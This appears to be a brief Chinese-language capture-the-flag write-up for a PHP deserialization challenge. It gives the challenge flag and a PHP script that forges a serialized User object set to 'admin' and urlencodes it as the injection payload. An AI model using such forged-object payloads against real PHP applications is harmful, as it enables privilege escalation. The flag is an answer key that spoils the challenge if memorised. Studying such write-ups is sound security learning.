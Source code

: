 #### [flag]

`ACTF{Very_esay_Unserialize!!!}`

#### [题解思路]

考点无非就是在`php`中，`private`标签的属性被序列化时会产生不可显示的字符`%00`。这时候我们要将结果`urlencode()`之后再输出。

```php
<?php
class User{
    private $Username = "admin";
    private $Password = "0xDktb111";

    function __construct(){
        $Username = "0xDktb";
        $Password = "0xDktb123";
    }


    function isAdmin(){
        if($this->Username == "admin"){
            return true;
        }
        return false;
    }

    function __destruct(){
        echo "Hello ".$this->Username;
    }
}

echo urlencode(serialize(new User()));

?>
```

运行就可以拿到payload。

![image-20210226170725132](https://i.loli.net/2021/02/26/dg4Y5Gueyxc2DCH.png)